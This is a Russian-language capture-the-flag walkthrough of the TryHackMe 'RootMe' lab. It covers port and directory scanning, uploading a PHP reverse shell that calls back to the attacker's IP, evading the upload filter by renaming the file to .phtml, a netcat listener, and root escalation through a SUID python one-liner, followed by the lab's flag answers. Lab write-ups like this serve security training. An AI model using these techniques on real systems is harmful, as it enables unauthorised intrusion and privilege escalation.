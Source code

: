 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [RootMe](https://tryhackme.com/r/room/rrootme) 

Всего 4 задания:
## Задание 1
Подключитесь к сети TryHackMe и разверните машину. Если вы не знаете, как это сделать, сначала пройдите комнату OpenVPN.
```commandline
penvpn /home/kali/Documents/THM-openvpn/andrej.marinchenko.ovpn
ip addr
```
- 10.9.1.51 - адрес моей машины с kali linux для атаки
- 10.10.108.56 - адрес целевой машины

### Ответить на вопросы ниже
Разверните машину
```commandline
Ответ не нужен
```

## Задание 2
Для начала давайте получим информацию о цели.
```commandline
nmap -sC -sV 10.10.108.56

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 04:39 EDT
Nmap scan report for 10.10.108.56
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
```
### Ответить на вопросы ниже
Просканируйте машину, сколько портов открыто?
```commandline
2
```
Какая версия Apache используется?

```commandline
2.4.29
```
Какая служба работает на порту 22?

```commandline
ssh
```
Найдите каталоги на веб-сервере с помощью инструмента GoBuster.
```commandline
gobuster dir -u 10.10.108.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.108.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.108.56/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.108.56/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.108.56/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.108.56/panel/]
Progress: 6091 / 220561 (2.76%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 6110 / 220561 (2.77%)
===============================================================
Finished
===============================================================
```
```commandline
Ответ не нужен
```
Что такое скрытый каталог?

```commandline
/panel/
```

## Задание 3
Найдите форму для загрузки и получения обратного шелла, а также найдите флаг.

на найденной странице http://10.10.108.56/panel/ мы можем загружать файлы, давайте попробуем загрузить наш 
реверс-шелл написанный на php, для этого создадим файл:
```commandline
nano reverse.php
```
и вставим в него содержимое реверс-шела на подобии такого https://github.com/pentestmonkey/php-reverse-shell только 
не забываем заменить значения IP-адреса и порта для прослушивания, которые мы запустим для подключения в моем случае 
это 
- $ip = '10.9.1.51';  // CHANGE THIS
- $port = 4444;       // CHANGE THIS

отлично, файл мы создали, теперь его нужно загрузить на целевую машину, для этого перейдем на страницу 
http://10.10.108.56/panel/ выберем загрузить файл в соответсвующем поле и выберем на php файл, сразу мы получим 
предупреждение, php-файлы загружать нельзя, не беда, обойдем эту проверку переименовав наш файл из php в phtml
```commandline
mv reverse.php reverse.phtml
```
и повторим попытку загрузки файла на странице http://10.10.108.56/panel/ на этот раз все получилось...
далее откроем на нашей машине порт для прослушивания и подключения с машины жертвы:
```commandline
nc -lvnp 4444
```
теперь нам осталось выполнить наш реверс-шел, запустить его на машине жертвы можно перейдя на другую страницу
http://10.10.108.56/uploads/
и выбрать название нашего реверс-шела, для его выполнения. После чего возвращаемся на нашу машину где прослушивался 
соответсвующий порт и убедится в том, что доступ к машине жертвы получен.

```commandline
id 
whoami
```
конечно мы не обладаем правами супер-пользователя, но даже этого будет достаточно что бы найти 1-й флаг
```commandline
find / -type f -name user.txt 2>/dev/null 
cat /var/www/user.txt
```

### Ответить на вопросы ниже
пользователь.txt

```commandline
THM{y0u_g0t_a_sh3ll}
```

## Задание 4
Теперь, когда у нас есть оболочка, давайте повысим наши привилегии до root.
Для этого найдем файлы которые можно выполнить с правами суперпользователя
```commandline
find / -type f -user root -perm -4000 2>/dev/null
or
find / -perm -u=s -type f 2>/dev/null
```
т.к. есть возможность запускать python, этим мы и воспользуемся, для того что бы подобрать команду можно 
перейти на https://gtfobins.github.io/ и в соответсвующем разделе python - SUID найти нужную строку:
```commandline
python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
id
whoami
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```
### Ответить на вопросы ниже
Найдите файлы с разрешением SUID. Какой файл странный?

```commandline
/usr/bin/python
```
Найдите форму для повышения своих привилегий.
```commandline
Ответ не нужен
```
корень.txt
```commandline
THM{pr1v1l3g3_3sc4l4t10n}
```

## Задание 5

```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)


